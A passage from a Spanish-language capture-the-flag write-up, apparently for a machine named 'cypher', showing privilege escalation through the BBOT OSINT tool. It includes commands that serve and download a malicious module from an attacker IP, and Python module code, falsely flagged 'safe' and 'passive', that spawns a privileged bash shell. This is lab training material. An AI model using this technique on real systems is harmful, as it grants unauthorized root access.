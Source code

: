 > BBOT, o "Bighuge BLS OSINT Tool", es un framework de automatización OSINT (Inteligencia de Fuentes Abiertas) de código abierto desarrollado por [Black Lantern Security](https://translate.google.com/translate?u=https://blog.blacklanternsecurity.com/p/bbot&hl=es&sl=en&tl=es&client=sge)
{: . notice--info}

Con los privilegios actuales, podemos [crear un módulo](https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/) aparentemente inofensivo, que realmente ejecutará un comando en el sistema. Como podemos ejecutarlo emulando ser `root`, sería una vía potencial para escalar privilegios.

Existe un [repositorio](https://github.com/Housma/bbot-privesc/) que contempla un módulo malicioso que podemos utilizar como prueba de concepto, podemos clonarlo en nuestra máquina atacante-

~~~ bash
git clone https://github.com/Housma/bbot-privesc/
~~~

Iniciaremos un servidor HTTP en el directorio donde tenemos el repositorio

~~~ bash
python3 -m http.server 80
~~~

Crearemos un directorio en la ruta `/tmp` y descargaremos recursivamente los archivos necesarios para la escalada

~~~ bash
graphasm@cypher:~$ mkdir -p /tmp/privesc && wget -P /tmp/privesc http://10.10.14.187/bbot-privesc -r
~~~

Una vez se descargaron los archivos, nos dirigiremos al directorio que creamos en `/tmp`

~~~ bash
graphasm@cypher:~$ cd /tmp/privesc/10.10.14.187/
~~~

El archivo `.py` contiene el comando que se ejecutará en el sistema, debe contener el mismo nombre tanto en la clase como en el archivo `preset.yml`

~~~ python
from bbot.modules.base import BaseModule
import pty

class launch_shell(BaseModule):
    watched_events = []
    produced_events = []
    flags = ["safe", "passive"]
    meta = {"description": "Execute a interactive shell (root)"}

    async def setup(self):
        self.hugesuccess("Executing shell!")
        try:
            pty.spawn(["/bin/bash", "-p"])
        except Exception as e:
            self.error(f"Failed: {e}")
        return True
~~~
